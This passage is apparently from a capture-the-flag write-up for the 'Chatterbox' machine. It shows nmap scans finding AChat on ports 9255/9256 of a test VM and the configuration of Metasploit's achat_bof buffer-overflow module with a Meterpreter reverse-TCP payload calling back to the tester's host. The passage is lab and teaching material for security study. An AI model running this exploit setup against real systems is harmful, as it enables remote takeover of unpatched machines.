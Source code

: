 That’s pretty convincing - Looks like `AChat` is running on Chatterbox. *And* that likely that UDP 9256 is also listening, just not in a way that nmap responds to. To check, I scanned my Windows VM with nmap and got the same results:

```

root@kali# nmap -sT -p- --min-rate 5000 --max-retries 1 192.168.249.129
Starting Nmap 7.70 ( https://nmap.org ) at 2018-06-12 19:26 EDT
Nmap scan report for 192.168.249.129
Host is up (0.00044s latency).
Not shown: 65533 filtered ports
PORT     STATE SERVICE
9255/tcp open  mon
9256/tcp open  unknown
MAC Address: 00:0C:29:82:14:87 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 39.49 seconds

root@kali# nmap -sU -p- --min-rate 5000 --max-retries 1 192.168.249.129
Starting Nmap 7.70 ( https://nmap.org ) at 2018-06-12 19:26 EDT
Nmap scan report for 192.168.249.129
Host is up (0.00037s latency).
All 65535 scanned ports on 192.168.249.129 are open|filtered
MAC Address: 00:0C:29:82:14:87 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 39.53 seconds

```

#### Exploit

##### Metasploit - Fail

Since Metasploit has this build in, it’s temping to try it. Still targeting the VM:

```

msf exploit(windows/misc/achat_bof) > show options

Module options (exploit/windows/misc/achat_bof):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   RHOST  192.168.249.129  yes       The target address
   RPORT  9256             yes       The target port (UDP)

Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.249.127  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Achat beta v0.150 / Windows XP SP3 / Windows 7 SP1

```
